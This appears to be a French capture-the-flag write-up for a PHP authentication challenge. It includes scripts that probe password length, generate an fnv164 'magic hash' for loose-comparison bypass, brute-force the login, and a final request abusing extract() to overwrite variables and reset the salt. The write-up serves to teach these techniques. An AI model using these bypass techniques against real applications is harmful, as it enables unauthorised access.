







## Enonce



On atterrit ici:
 


## Conditions

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

'''
$salt = bin2hex(random_bytes(12));  # 24 chars

extract($_GET);

$secret = gethostname() . $salt;
'''
for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

## Magic hash

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de faire un magic hash de la bonne taille pour forcer un `===0`

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}

?>
```



Et après le `random` est bien embêtant ...

On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit x)

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Extract()?

En me repenchant dessus j'ai trouvé une vuln: on peut appeler `log_attack`:
Voir:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/



Et récupérer le hostname:



## Réinitialisation du salt

On réutilise notre script PHP.

Grâce à extract on peut:

- préciser notre premier salt
- mettre un 2nd password (avec un nouveau salt) pour avoir 

```php
$password !== $secret
```

et

```php
hash('fnv164', $password) == hash('fnv164', $secret)
```



On a plus qu'à:

`https://salty-authentication.france-cybersecurity-challenge.fr/?password=HASH_DU_SECRET&log_attack=extract($_SERVER);&salt=NOUVEAU_SALT`

Tada!!


